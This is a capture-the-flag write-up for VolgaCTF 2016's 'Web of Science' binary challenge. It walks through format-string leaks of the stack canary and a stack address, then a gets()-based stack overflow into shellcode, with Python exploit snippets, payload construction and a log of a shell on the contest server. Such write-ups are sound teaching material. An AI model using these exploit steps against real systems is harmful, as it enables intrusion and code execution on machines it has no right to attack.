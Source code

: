 +++
title = "VolgaCTF 2016 - Web of Science"
author = "hugsy"
date = 2016-03-28T00:00:00Z
updated = 2016-03-28T00:00:00Z

["taxonomies"]
tags = ["pwn","volgactf-2016","x86"]
categories = [" ctf"]
+++

### Info ###


```bash
gef➤  !file ./web_of_science
./web_of_science: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=85e0df26435ee411258ad39668c9700b1ebadec9, stripped
gef➤  checksec
[+] checksec for '/home/hugsy/ctf/volgactf_2016/web_of_science'
Canary:                                           Yes
NX Support:                                       No
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
```

It's a simple dynamically linked binary for x86-64. We have a canary stack
however the stack is executable (the '90s says hello!), which `gef`
confirms instantly:
![exec-stack](https://i.imgur.com/LfT3dt1.png)


### Vulnerabilities ###

`web_of_science` is a tool to manage scientific papers.
The binary is full of vulnerabilities, many of which were automatically detected
by the `format-string-helper` command from [GDB-GEF](https://github.com/hugsy/gef.git)

![fmt-str-gef](https://i.imgur.com/cqYmZLi.png)

Without any static analysis, we immediately spot that many (if not all)
`printf()` calls are vulnerable to format string vulnerabilities, where we
control the format field. That's good, we can leverage that later to bypass the
canary protection. So far, so good ☺


So what does the binary do? It starts by call the function at 0x04007CD which
checks if we are human by prompting us to solve an addition with randomly
generated integers. Pretty hardcore stuff, right?

Then we jump into serious business at 0x400E1C. The function offers a menu to
respectively add/delete/list/view papers and exit.

When adding a paper (`add_paper()` function), a stack buffer of 1096 bytes is
allocated on the stack. It is then possible to populate different fields of this
stack allocated paper as shown here:

![add-paper-fill-info](https://i.imgur.com/dTZmTgS.png)

When saving the stack buffer is then copied to the .bss segment:

```bash
.text:0000000000400BAD loc_400BAD:                             ; DATA XREF: .rodata:0000000000401240
.text:0000000000400BAD                 mov     eax, cs:nb_papers
.text:0000000000400BB3                 cdqe
.text:0000000000400BB5                 shl     rax, 6
.text:0000000000400BB9                 mov     rdx, rax
.text:0000000000400BBC                 shl     rdx, 4
.text:0000000000400BC0                 add     rax, rdx
.text:0000000000400BC3                 add     rax, offset base_papers
.text:0000000000400BC9                 mov     rdx, rax
.text:0000000000400BCC                 lea     rsi, [rbp+paper]
.text:0000000000400BD3                 mov     eax, 88h
.text:0000000000400BD8                 mov     rdi, rdx
.text:0000000000400BDB                 mov     rcx, rax
.text:0000000000400BDE                 rep movsq               ; memcpy(base_paper[i], paper_stack)
.text:0000000000400BE1                 mov     eax, cs:nb_papers
.text:0000000000400BE7                 add     eax, 1          ; increments the number of paper
.text:0000000000400BEA                 mov     cs:nb_papers, eax
.text:0000000000400BF0                 jmp     short loc_400BF9
```

One stricking thing is of course the massive use of `gets()` everywhere for user
input. So we think immediately to stack-based buffer overflow.

The `view_paper()` function (at 0x400D52) receives a pointer to a paper and
displays its information using `printf()` - which makes us understand what
triggered the `gef` plugin for format string.

![view-paper](https://i.imgur.com/f7hs6qZ.png)


### Exploitation ###

The exploitation process will go something like this:

   1. Use of the format string vulnerabilities to leak stack until we get the
      canary using `printf()`
   1. Overflow one of the stack allocated buffer using `gets()`, correctly
      insert the canary, and jump to our stack-based shellcode.

So this lines up the following sequential steps:

   - Create a paper to allocate a 1096 byte stack buffer
```python
    ok("Adding a paper")
    s.read_until("> ")
    s.write("1\n") # add_paper

    ok("Adding paper name")
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    s.read_until("Paper name: ")
    s.write('A'*10+"\n")
```

   - Using the abstract field of the paper to store our format string to leak
    the canary, and the stack address (for returning to it).
```python
    ok("Adding paper abstract")
    s.read_until("> ")
    s.write("3\n") # add_paper_abstract
    s.read_until("Paper abstract: ")
    s.write("%7$p.%163$p" + "\n")
```
   A stack address was found at `"$7$p"` and the canary at `"%163$p"`.

   - We need to view the paper to actually trigger the format string information
     leak:
```python
    s.read_until("> ")
    s.write("5\n") # view_paper_info
    s.read_until("Abstract:\n\t")
    paper_addr, canary = s.read_until("\nTags:\n\t")[:-8].split('.', 1)
    paper_addr = int(paper_addr, 16)
    canary = int(canary, 16)
    ok("Got addr: %#x" % paper_addr)
    ok("Got canary: %#x" % canary)
```

   - And now, build our payload, overflow the buffer, insert the canary to get
   good karma, and make the `ret` at 0x400C0E fall back to our controlled
   buffer:
```python
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    ok("Sending payload")
    payload = ""
    payload+= "\x90"*0x8
    payload+= SC
    payload+= "\x90"*(1096-len(payload))
    payload+= q_s(canary) + "JUNK"*2 + q_s(paper_addr)
    s.read_until("Paper name: ")
    s.write(payload + '\n')

    s.read_until("> ")
    s.write("6\n") # quit to trigger the ret
```

And the execution gives:
```bash
~/ctf/volgactf_2016 $  ./gef-exploit.py
[+] Connected to webofscience.2016.volgactf.ru:45678
[+] Passing checks
[+] Adding a paper
[+] Adding paper name
[+] Adding paper abstract
[+] Showing paper to leak the canary
[+] Got addr: 0x7fffffffe6e0
[+] Got canary: 0x675049f6baf95300
[+] Sending payload
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '

python -c "import pty;pty.spawn('/bin/bash')"
nobody@scweb1:/opt$ ls
flag_wos.txt  install  start_wos  web_of_science
nobody@scweb1:/opt$ cat flag_wos.txt
VolgaCTF{executable_st@ck_doesnt_cause_@ny_problems_d0es_it}
```

All done mate !


### Conclusion ###

Final word (or image):

![image_alt](https://i.imgur.com/PjfFC2f.jpg)

Full exploit is : [gef-exploit.py](https://gist.github.com/hugsy/deae32e1da40e7b8c754)

A write-up for `web_of_science_2` might as well come soon, stay tuned...
